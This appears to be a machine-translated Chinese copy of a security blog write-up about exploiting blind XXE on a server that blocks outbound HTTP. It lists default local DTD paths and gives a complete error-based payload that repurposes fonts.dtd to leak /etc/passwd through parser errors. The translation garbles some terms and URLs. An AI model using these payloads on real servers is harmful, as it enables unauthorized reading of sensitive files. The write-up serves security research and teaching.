



# 在强化服务器上使用 XXE 进行数据渗透

> 原文：<https://infosecwriteups.com/data-exfiltration-using-xxe-on-a-hardened-server-ef3a3e5893ac?source=collection_archive---------4----------------------->



图片来源:[https://www . net sparker . com/blog/we b-security/xxe-XML-external-entity-attacks/](https://www.netsparker.com/blog/web-security/xxe-xml-external-entity-attacks/)

> 这是 XXE 的一个特例，所以在阅读本文之前，最好先了解一下 XXE 的基本情况。

XXE 代表 XML 外部实体。这是 OWASP 十大安全错误配置的一部分。该漏洞使得攻击者能够将 XML 解析器转换为代理。成功利用该漏洞会导致本地文件泄漏到 SSRF 甚至 RCE。

关于 XXE 已经说得够多了，到了剥削的部分。

# **检测和不成功的攻击尝试**

作为我自动化的一部分，常规的细胞核扫描导致了盲 XXE 的检测。目标服务器在被注入带有 interact sh(burp collaborator 的项目发现替代方案)URL 的 XXE 有效负载时，正在对主机名进行 DNS 查找。注入点在网页正文中，只需将请求从 GET 改为 POST，将内容类型改为 text/xml。当提供有效负载时，服务器没有返回任何内容(完全没有响应)。

*那么怎么回事，失明的 XXE 不能被剥削吗？*

是的，它可以被利用，但有一些 WAF 阻止了所有传出的 http 流量。对于盲 XXE，我们可以托管任何外部 DTD 文件，并让 XML 解析器向该文件发送请求，因为出站 *http* 流量被阻止，我们可以通过任何上传功能在目标 web 服务器内部托管它，但网站没有尝试文件上传的功能。

# 成功的尝试

由于上传被阻止，我们可以使用一些内部 DTD 文件进行基于错误的攻击。

> 来源如下(1)

DTD 是一种文档类型定义。它规定了 XML 文档的结构、元素和属性。

服务器上只有 http、ftp 和文件协议。希望在列举其他协议时，服务器响应一些错误。我们可以检查文件是否存在，我们可以使用*文件*协议。为了列举其他协议，我只是将“*文件”*替换为其他协议(gopher、smtp、ftp 等)并查看错误消息。如果文件不存在，服务器会响应(没有这样的文件)以及其他错误。



```
<?xml version=”1.0"?>
<!DOCTYPE foo SYSTEM “file:///etc/passwd”>
<foo>&e1;</foo>
```


这也证实了 XXE 注射液的存在，现在我们有“东西”可以玩了。

这里常规的实体被阻塞了，所以我们必须使用一个包含预定义实体的 DTD 文件。WAF 阻止了所有传出的 http 流量，没有办法上传文件，所以唯一的办法是使用服务器上已经存在的文件。默认情况下，操作系统包含一些 DTD 文件。在 Linux 系统中，其中一些是:

```
./properties/schemas/j2ee/XMLSchema.dtd
./../properties/schemas/j2ee/XMLSchema.dtd
./../../properties/schemas/j2ee/XMLSchema.dtd
/usr/share/java/jsp-api-2.2.jar!/javax/servlet/jsp/resources/jspxml.dtd
/usr/share/java/jsp-api-2.3.jar!/javax/servlet/jsp/resources/jspxml.dtd
/root/usr/share/doc/rh-python34-python-docutils-0.12/docs/ref/docutils.dtd
/root/usr/share/doc/rh-python35-python-docutils-0.12/docs/ref/docutils.dtd
/usr/share/doc/python2-docutils/docs/ref/docutils.dtd
/usr/share/yelp/dtd/docbookx.dtd
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd
/usr/share/boostbook/dtd/1.1/boostbook.dtd
/usr/share/boostbook/dtd/boostbook.dtd
/usr/share/dblatex/schema/dblatex-config.dtd
/usr/share/struts/struts-config_1_0.dtd
/opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd
```

> 来源如下(2)

现在，对于基于错误的攻击，有必要了解 DTD 文件中存在的实体。同样，我们可以使用如上所示的*文件*协议，通过提供各种文件路径并查看错误消息来检查 DTD 文件的存在。在我的测试中，我发现“/usr/share/XML/font config/fonts . dtd”文件存在于系统中。fonts.dtd 文件有一个可注入的实体“%constant”。现在我只需要知道我要导出的文件的位置。对于 PoC 来说，“/etc/passwd”的内容就足够了。最终的有效载荷看起来像:

```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd"><!ENTITY % constant 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///ritik/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>%local_dtd;
]>
<message>Text</message>
```

这个有效负载的工作方式类似于基于错误的 XXE，唯一的不同是我们使用一个已经存在的 dtd 文件来触发错误。

发送此有效负载时，解析错误包含指定文件的敏感数据。



# **资源**

这些是我成功利用的资源。

1.  发现这项技术的 [Arseniy Sharoglazov](https://mohemiv.com/) 的博客:[https://mohemiv . com/all/exploining-xxe-with-local-dtd-files/](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)
2.  发现本地 dtd 文件:[https://www . go secure . net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/](https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/)
3.  各种默认 dtd 文件中存在的实体列表:[https://github . com/go secure/dtd-finder/blob/master/list/xxe _ payloads . MD](https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md)
4.  基于错误的 XXE 如何工作:[https://ports wigger . net/we b-security/xxe/blind # exploining-blind-xxe-to-retrieve-data-via-error-messages](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages)
5.  Portswigger 实验室练习:[https://portswigger . net/we b-security/xxe/blind/la b-xxe-trigger-error-message-by-re purposing-local-dtd](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd)

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)